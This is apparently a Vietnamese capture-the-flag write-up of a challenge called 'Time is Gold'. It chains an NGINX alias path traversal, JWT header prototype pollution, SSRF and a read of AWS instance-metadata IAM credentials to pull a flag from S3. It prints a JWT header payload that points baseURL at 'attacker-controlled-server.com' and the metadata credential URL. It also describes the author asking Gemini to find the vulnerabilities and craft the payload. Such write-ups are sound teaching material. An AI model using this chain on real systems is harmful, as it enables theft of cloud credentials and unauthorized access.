

## Time is Gold

### 1. Path traversal via misconfigured NGINX alias
- Được BTC hint cho cái file `server.js` ở `http://47.129.239.241/assets../server.js` chứ mình cũng không mò ra

### 2. Check vulnerables of `server.js`and `jwt.js`
- Tải 2 file về rồi hỏi Gemini: `check my source code and show security vulnerabilities if I missed`
- Tập trung vào output sau

> **Critical JWT Policy Poisoning via Header Tampering**
> Your JWT library's "policy" mechanism can be manipulated by an attacker-controlled JWT header, leading to a bypass of security checks for all subsequent token verifications.
> 
> Vulnerable Code (jwt.js):
> ```
> function headerPolicyFor(typ, overrides, store = defaultHeaderPolicies) {
>  const key = String(typ || 'JWT');
>  if (!store[key]) store[key] = {};
>  const p = store[key];
>  if (isObject(overrides)) { // <-- VULNERABILITY HERE
>    // It merges the "overrides" (from the untrusted token header)
>    // into the shared policy object `p`.
>    for (const k of Object.keys(overrides)) {
>      p[k] = overrides[k];
>    }
>  }
>  return p;
> }

### 3. S3 Storage Usage
- Thấy cái `S3_GOLD_URL`
- IP `47.129.239.241` là IP của Amazon Data Services Singapore
- Đoán mò là Flag sẽ nằm trong S3

### 4. SSRF Potential
- Hỏi tiếp Gemini: `any SSRF that hacker can send request to localhost`
- Tập trung vào output sau
> goldHttpClient Path (direct=false)
> When the direct query parameter is explicitly set to 'false' or '0', this path is taken.
> ```
> response = await goldHttpClient.get(GOLD_API_PATH, requestConfig);
> ```

### 5. Generate payload 
- Tạo cái chat mới để hỏi Gemini tiếp, upload 2 files và hỏi `use headerPolicyFor to set goldHttpClient.defaults.baseURL or parent classes to abuse goldHttpClient.defaults.baseURL`
- Đáp án:
> **Exploitation: Chaining Prototype Pollution to SSRF**
> ```
> {
>  "alg": "HS256", 
>  "typ": "__proto__",
>  "baseURL": "http://attacker-controlled-server.com/"
> }
> ```

### 6. DIY - Do It Yourself
- Vì là S3 nên thử request vô `http://169.254.169.254/latest/meta-data/latest/meta-data/iam/security-credentials/`
- May là trả ra cái role và thử tiếp thì có token
- Tiếp tục hỏi Gemini để cài **AWS CLI** lên máy rồi vô Storage lấy Flag thôi
- Flag mà teammate tìm được, mình chỉ ngồi chat với Gemini thôi



## Thanks to CBJS for the chalange!
## Have fun!
